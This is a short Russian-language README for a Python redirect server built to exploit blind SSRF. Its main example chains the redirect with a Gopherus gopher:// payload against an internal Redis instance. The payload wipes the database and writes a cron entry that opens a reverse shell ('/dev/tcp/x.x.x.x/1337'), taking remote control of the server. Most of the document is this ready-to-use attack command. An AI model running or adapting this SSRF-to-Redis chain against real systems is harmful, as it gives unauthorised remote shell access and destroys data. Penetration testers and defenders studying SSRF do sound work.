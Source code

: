 # simpleRedirectServer

Этот код был написан специально для Blind SSRF.

В этом случае сервер будет слушать порт 8080 и перенаправлять все запросы на https://www.google.com
```
> python3 server.py 8080 https://www.google.com
```
Код статуса по умолчанию будет 302 (Found). Если вы хотите задать другой код статуса, вы можете добавить его в команду:
```
> python3 server.py 8080 https://www.google.com 301
```
Пример для Blind SSRF через [Gopherus](https://github.com/tarunkant/Gopherus). Все входящие запросы на наш IP:8080 заставят бекенд перенаправить запрос на внутренний сервис
```
> Vulnerable Path: https://vulnerableapp.com/ssrf?url=http://IP:8080
> python3 server.py 8080 gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2469%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/x.x.x.x/1337%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2414%0D%0A/var/lib/redis%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
